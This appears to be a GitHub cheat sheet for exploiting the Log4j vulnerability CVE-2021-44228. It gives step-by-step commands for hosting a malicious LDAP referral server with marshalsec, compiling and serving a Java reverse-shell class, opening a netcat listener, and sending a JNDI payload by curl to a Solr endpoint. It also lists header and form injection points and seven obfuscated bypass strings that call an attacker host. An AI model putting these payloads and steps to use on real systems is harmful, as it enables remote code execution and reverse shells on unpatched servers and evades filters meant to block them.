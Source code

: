## CVE-2021–44228 Log4j

### CVSS Score: 10

### Tools: mvn marshalsec netcat JNDI Exploit kit https://github.com/pimps/JNDI-Exploit-Kit

### Payload example: 

    ${jndi:ldap://ATTACKER_IP:1389/Exploit.class}

## Steps: 

#### 1) 

    cd /marshalsec

#### 2) 

    mvn clean package -DskipTests (Install marshalsec utility)

#### 3) 

    java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://ATTACKER_IP:8000/#Exploit" (Host LDAP server with marshalsec)

#### 4) Create a java reverse shell exploit (Exploit.java)

#### 5) 

    javac Exploit.java -target 8 -source 8 (Compile the java exploit into a class file (Exploit.class))

#### 6) 

    python3 -m http.server 8000 (Host compiled payload to HTTP server)

#### 7)  

    nc -lvnp PORT (Setup listener)

#### 8) 

    curl 'http://MACHINE_IP:8983/solr/admin/cores?foo=$\{jndi:ldap://ATTACKER_IP:1389/Exploit\}' (Send payload to target machine to get a reverse shell)

## JNDI syntax injection:

#### 1) Anywhere that has data logged by the application

#### 2) Input boxes, user and password login forms, data entry points within applications

#### 3) HTTP headers such as User-Agent, X-Forwarded-For, X-ApiVersion, or other customizable headers

#### 4) Any place for user-supplied data

## Bypass examples:

#### 1) 

    ${${env:ENV_NAME:-j}ndi${env:ENV_NAME:-:}${env:ENV_NAME:-l}dap${env:ENV_NAME:-:}//attackerendpoint.com/}

#### 2) 

    ${${lower:j}ndi:${lower:l}${lower:d}a${lower:p}://attackerendpoint.com/}

#### 3) 

    ${${upper:j}ndi:${upper:l}${upper:d}a${lower:p}://attackerendpoint.com/}

#### 4) 

    ${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://attackerendpoint.com/z}

#### 5) 

    ${${env:BARFOO:-j}ndi${env:BARFOO:-:}${env:BARFOO:-l}dap${env:BARFOO:-:}//attackerendpoint.com/}

#### 6) 

    ${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://attackerendpoint.com/}

#### 7) 

    ${${::-j}ndi:rmi://attackerendpoint.com/}
